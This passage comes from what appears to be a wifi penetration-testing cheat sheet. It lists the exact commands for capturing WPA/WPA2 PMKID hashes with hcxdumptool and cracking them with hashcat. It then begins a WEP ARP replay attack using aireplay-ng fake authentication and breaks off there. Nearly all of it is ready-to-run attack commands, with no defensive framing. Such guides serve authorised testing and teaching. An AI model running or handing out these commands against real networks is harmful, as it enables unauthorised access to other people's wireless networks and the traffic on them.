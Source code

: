 Crack the WPA/WPA2 authentication without deauthenticating the clients.

Install required set of tools on Kali Linux:

```bash
apt-get update && apt-get -y install hcxtools
```

\[Optional\] Install required tool on WiFi Pineapple:

```bash
opkg update && opkg -d sd install hcxdumptool
```

Start capturing PMKID hashes:

```fundamental
hcxdumptool -i wlan0mon --enable_status=1 -o hcxdumptool_results.cap
```

\[Optional\] Start capturing PMKID hashes for specified WiFi networks:

```bash
echo HH:HH:HH:HH:HH:HH | sed 's/\://g' >> filter.txt

hcxdumptool -i wlan0mon --filterlist_ap=filter.txt --filtermode=2 --enable_status=1 -o hcxdumptool_results.cap
```

Sometimes it can take hours to capture a PMKID hash.

Extract PMKID hashes from a PCAP file:

```fundamental
hcxpcaptool hcxdumptool_results.cap -k hashes.txt
```

Start a dictionary attack against PMKID hashes:

```fundamental
hashcat -m 16800 -a 0 --session=cracking --force --status --optimized-kernel-enable --outfile hashcat_results.txt hashes.txt rockyou.txt
```

Find out more about Hashcat from my other [project](https://github.com/ivan-sincek/penetration-testing-cheat-sheet#hashcat).

### ARP Request Replay Attack

If target's WiFi network is not busy, it can take days to capture enough IVs to crack the WEP authentication.

Do a fake authentication to a specified WiFi network with non-existing MAC address and keep the connection alive:

```fundamental
aireplay-ng wlan1 -a FF:FF:FF:FF:FF:FF -e essid -h FF:FF:FF:FF:FF:FF --fakeauth 6000 -o 1 -q 10
```

If MAC address filtering is active, do a fake authentication to a specified WiFi network with an existing MAC address:
